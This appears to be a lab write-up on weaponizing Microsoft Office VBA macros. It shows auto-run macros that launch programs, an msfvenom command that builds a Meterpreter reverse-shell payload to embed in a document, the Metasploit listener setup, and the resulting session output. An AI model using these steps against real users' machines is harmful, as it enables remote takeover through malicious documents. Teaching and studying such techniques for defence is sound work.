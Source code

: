 ## Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface (API) and other low-level functionality.

### Creating a Macro

To follow along, open Microsoft Word 2016 and create a new blank document. Then, open the Visual Basic Editor by selecting **View → Macros**. In the **Macro name** section, name the macro `THM`, select `Document1`, and click **Create**. The Visual Basic for Application editor will open where you can write VBA code.

#### Example: Displaying a Message Box
```vba
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```
To execute the macro, press **F5** or go to **Run → Run Sub/UserForm**.

#### Executing VBA Code Automatically on Document Open
```vba
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```
Save the file as a **Macro-Enabled format** (e.g., `.doc` or `.docm`). When reopening the document, Microsoft Word will display a security warning about macros. Click **Enable Content** to execute the macro.

### Executing an Application (Proof of Concept)
```vba
Sub PoC()
  Dim payload As String
  payload = "calc.exe"
  CreateObject("Wscript.Shell").Run payload, 0
End Sub
```
This script launches `calc.exe` (Calculator) when executed. Ensure you include this function in `AutoOpen()` and `Document_Open()` to trigger automatically.

### VBA Reverse Shell using Metasploit

To receive a reverse shell, we generate a Meterpreter payload using `msfvenom`:

#### Generating the Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
```
- Replace `10.50.159.15` with your AttackBox's IP address.
- Modify `Workbook_Open()` to `Document_Open()` if using MS Word.
- Copy the output into the VBA macro editor.

#### Setting Up the Listener
```sh
msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > exploit
```

#### Receiving the Reverse Shell
```sh
[*] Started reverse TCP handler on 10.50.159.15:443
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209)
meterpreter >
```

Now, when the victim opens the malicious document, a reverse shell connection is established.

### Conclusion
This method demonstrates how adversaries can leverage VBA macros to execute arbitrary code, including launching applications and establishing reverse shells. Always be cautious when enabling macros in documents from unknown sources.